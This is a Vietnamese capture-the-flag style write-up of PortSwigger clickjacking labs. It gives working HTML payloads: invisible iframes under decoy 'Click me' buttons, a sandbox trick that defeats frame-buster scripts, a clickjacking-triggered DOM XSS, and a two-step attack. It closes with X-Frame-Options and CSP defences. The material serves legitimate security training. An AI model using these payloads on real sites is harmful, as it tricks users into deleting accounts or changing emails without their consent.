


# CLICKJACKING

Clickjacking giống như việc bạn nhấp vào 1 button nhưng trang quảng cáo hiện ra. Lỗ hổng này có kịch bản là việc mình có thể tạo 1 iframe để kéo trang web cần attack vào, và tạo 1 button riêng biệt nổi lên trên nhằm che đi trang web cần attack bên dưới và khi người dùng click vào button mà ta tạo ra thì vô tình sẽ kích hoạt button trên trang cần attack đó. 

Dễ hiểu hơn ta sẽ đi vào ví dụ 1: 

---

## 1. Basic clickjacking with CSRF token protection
https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected

Chúng ta tạo ra 1 đoạn HTML nhằm đưa trang web cần attack vào nhưng cho opacity = 0.0001  để như tàng hình bên dưới: 

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

Cố gắng căn chỉnh sao cho chữ `Click me` trùng với button `Delete Account` của trang web cần attack. Victim sẽ chỉ thấy chữ `Click me` hiển thị lên, và khi click vào nó sẽ Delete Account của họ. \


Như hình vẽ nhưng ta sẽ cho opacity nhỏ hơn nữa tầm 0.0001 thì gần như không thấy được. 

---

## 2. Clickjacking with form input data prefilled from a URL parameter
https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input

Context: 

Mục tiêu là thay đổi địa chỉ email của người dùng bằng cách điền trước vào biểu mẫu bằng tham số qua URL mình đưa ra sẵn và dụ người dùng vô tình nhấp vào nút "Update email".

Ta thấy nếu URL có thêm parameter `email` thì input bên dưới sẽ tự động điền:\


Nhờ đó ta có thể thao túng được email đưa vào, và người dùng chỉ cần click là sẽ sập bẫy. 
```html
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:470px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ae1008b0404d4d2856f555b000d00cb.web-security-academy.net/my-account?email=abcde@gmail.net"></iframe>
```


Và giờ ta giảm opacity xuống 0.0001 nữa

## 3. Clickjacking with a frame buster script
https://portswigger.net/web-security/clickjacking/lab-frame-buster-script

Nếu trang web có thể add vào iframe tức là có thể Clickjacking, vì vậy có nhiều triển khai để hạn chế khả năng cho vào frame của trang web. 

Một biện pháp bảo vệ phía máy khách phổ biến được thực hiện thông qua trình duyệt web là sử dụng các tập lệnh phá khung hoặc phá vỡ khung.

Một giải pháp hiệu quả cho kẻ tấn công chống lại việc phá khung hình là sử dụng thuộc tính `sandbox` iframe HTML5.

Khi thiết lập giá trị `allow-forms` hoặc `allow-scripts` và giá trị `allow-top-navigation` bị bỏ qua thì tập lệnh frame buster có thể bị vô hiệu hóa vì iframe không thể kiểm tra xem đó có phải là cửa sổ trên cùng hay không:

`<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>`

Context: frame buster script để chặn nhúng iframe

Nếu dùng payload cũ ta nhận được:\


Với payload: 
```html
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:470px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ad5006f030e842f8067761400e60079.web-security-academy.net/my-account?email=abcde@gmail.net" sandbox="allow-forms"></iframe>
```


---

# Combining clickjacking with a DOM XSS attack

## 4. Exploiting clickjacking vulnerability to trigger DOM-based XSS
https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss

Context: Ta có thể XSS vào `https://0ac500860442b0d78050031c006f00fe.web-security-academy.net/feedback` và dùng URL để tự động điền đâu vào cho form:\
`/feedback?name=&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult`

Từ đây ta xây dựng payload: 
```html
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:470px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ac500860442b0d78050031c006f00fe.web-security-academy.net/feedback?name=%3Cimg%20src=1%20onerror=print()%3E&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```


## 5. Multistep clickjacking
https://portswigger.net/web-security/clickjacking/lab-multistep

Lab này sử dụng CSRF token + hộp thoại xác nhận để tránh Clickjacking, vậy nên cần thực hiện click 2 lần theo lần lượt. 

```html
<style>
	iframe {
		position:relative;
		width:1000px;
		height: 700px;
		opacity: 0.0001;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:510px;
		left:60px;
		z-index: 1;
	}
   .secondClick {
		top:310px;
		left:200px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a78001103876a918610a7d600500091.web-security-academy.net/my-account"></iframe>
```

\


---

# Cách Prevent

## X-Frame-Options
Header cho phép 1 trang web khác có được phép chèn nội dung trang web của bạn vào trang web đó dưới dạng iframe hay không: \
`X-Frame-Options: deny`   -> Không được phép thêm

`X-Frame-Options: sameorigin` -> Nếu chung orgin có thể add vào iframe

`X-Frame-Options: allow-from https://normal-website.com`  -> Chỉ định 

## Content Security Policy (CSP)
Chính sách bảo mật nội dung (CSP) là một cơ chế giúp phát hiện và ngăn chặn các cuộc tấn công như XSS (tấn công chèn mã) và clickjacking (lừa đảo nhấp chuột). CSP thường được thiết lập trên máy chủ web dưới dạng một tiêu đề trả về như sau:\
`Content-Security-Policy: policy`

Để bảo vệ chống lại clickjacking, nên thêm chỉ thị `frame-ancestors` vào chính sách CSP của ứng dụng. Chỉ thị `frame-ancestors 'none'` có chức năng tương tự như chỉ thị `X-Frame-Options deny`. Chỉ thị `frame-ancestors 'self'` tương đương với `X-Frame-Options sameorigin`. Ví dụ, để chỉ cho phép các khung từ cùng một miền, bạn có thể sử dụng:\
`Content-Security-Policy: frame-ancestors 'self';`

Ngoài ra, bạn cũng có thể giới hạn việc khung chỉ đến các trang cụ thể:\
`Content-Security-Policy: frame-ancestors normal-website.com;`


